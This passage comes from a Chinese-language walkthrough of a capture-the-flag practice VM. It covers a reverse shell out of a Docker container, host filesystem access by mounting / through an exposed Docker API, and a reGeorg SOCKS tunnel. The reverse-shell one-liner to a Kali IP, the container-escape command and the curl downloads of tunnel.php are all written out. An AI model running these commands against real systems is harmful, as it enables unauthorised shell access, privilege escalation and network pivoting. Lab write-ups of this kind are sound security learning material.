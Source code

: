 ![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVGXNpZ8mibjh12Ym8vs4D9F6rFSyPtfhwUq4kLiczW0EPLbJcmzTZdOuQ/640?wx_fmt=png&from=appmsg "")  
访问到了  
#### 3、docker环境反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVB4Us4LhyH9C9L7vR2WiaZRhLzy5FWKyxLTMr9HUSe6NGRPmxLPN1bicQ/640?wx_fmt=png&from=appmsg "")  
这里是一个docker环境，可以执行命令，可以反弹个shell到kali上 nc -vlp 9988 bash -i >& /dev/tcp/192.168.66.129/9988 0>&1![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVaQ8b3hyNOCdje1WkwkTDKia8sokSq7xFZM1obszibdDks40fEVz0xPSw/640?wx_fmt=png&from=appmsg "")  
这里拿到了shell  
### 7、代理访问提权（方法一）  
  
这里run目录下有docker拉取的文件，有相关漏洞，remote API未授权访问![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV6AksWt6WiagKOFKYwG1aEeLHu8VOp70ty0ib1RSWsAjn6tws9mxVymZA/640?wx_fmt=png&from=appmsg "")  
根据这个漏洞的相关介绍，我们来尝试一下  
  
这里有个问题，就是靶机没有docker，可能是作者删除了，我们需要自己下载并且换源 这里大概是环境出问题了，其他师傅的靶机里面有vim工具之类的，包括mysql的仓库签名过期了，这里是个死局，无法解决.所以这里第一种方法我就直接给思路了 apt update apt install docker-ce 这样可以拉docker环境  
```
docker run --rm -it -v /:/tmp/1/ wordpress /bin/bash

```  
  
然后我们就能找到flag_3了  
##### 关键点  
```
由于docker环境没有vim，所以我们只能使用echo方式传入我们要的镜像源，这一点如果没做过会非常卡顿的，会踩坑很久
echo 'deb http://mirrors.aliyun.com/ubuntu/ trusty main [restricted](https://cn-sec.com/archives/tag/restricted) universe multiverse  ' > /etc/apt/sources.list

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVshu3icibSUp92iaaIFr4k52SIvBibdMQG3O0YKjOZzm2QIBKQaqxrmdZlw/640?wx_fmt=png&from=appmsg "")  
很吓人啊，这个作者，表白起来了还![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV6MBGDqa6tzkNjYopkyU3RWHgjR7m8tuyS87d3F8U4nZbu2wONkKGOQ/640?wx_fmt=png&from=appmsg "")  
  
  
这台靶机非常恶心，断断续续打了3天，真的学到了不少，但是非常痛苦，推荐推荐推荐！！！  
### 8、reGeorg代理之路（方法二）  
```
这里就不复现了，直接给代码
curl -o tunnel.php https://raw.githubusercontent.com/sensepost/reGeorg/master/tunnel.nosocket.php 
curl -# -O http://192.168.27.195:8080/tunnel.php 
##复制到当前目录下  cp /tmp/tunnel.php .

```  
  
访问：http://192.168.27.131:8000/tunnel.php  
  
回显：Georg says, 'All seems fine' ---正常python reGeorgSocksProxy.py -u http://192.168.27.131:8000/tunnel.php 执行完就会开启一个socks5的代理，默认开启127.0.0.1：8888  
  
利用之前枚举出的信息中的数据库账号密码进行代理验证  
  